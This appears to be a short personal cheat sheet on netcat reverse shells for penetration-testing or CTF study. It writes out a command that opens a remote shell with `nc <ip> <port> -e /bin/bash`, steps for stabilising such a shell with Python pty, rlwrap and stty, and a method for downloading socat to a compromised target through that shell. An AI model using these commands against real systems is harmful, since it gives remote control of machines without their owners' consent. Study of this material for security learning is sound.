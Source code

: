 # NetCat shell
`-e <cmd>` - specify a command to execute e.g. `nc <ip> <port> -e /bin/bash` for a shell \
 The `-e` flag always must be appended to the target (where the shell must be executed).
 
# Shell stabilization
We have caught or connected to a netcat shell
## Python
1. `python -c 'import pty;pty.spawn("/bin/bash")'` - maybe need python2 or python3
2. `export TERM=xterm` - gives access to term commands like clear
3. Ctrl + Z to background the shell
4. `stty raw -echo; fg` - trun of own terminal echo and foreground shell

If shell dies use `reset` to turn on echo again

## rlwarp
We invoke nc via rlwrap which gives us access to history, tab completion and arrows. \
Needs to be installed if it is not. \
Also stabilized Windows shell. 

`rlwrap nc -lvnp <port>` - start nc in rlwrap

On Linux we can stabilze the shell completly by turning off our own terminal echo like above. 

## Socat
On linux this is a fully featured shell. On windows it is not more stable than a nc shell.
1. Obtain a static compiled binary of the socat shell for you target.
2. Use the netcat shell to download socat to the target
3. Invoke socat from the netcat shell

## Manually changing size of shell
`stty -a` - gives the host shell size \
`stty rows <row-size>` and `stty cols <cols-size>` changes the remote shell size
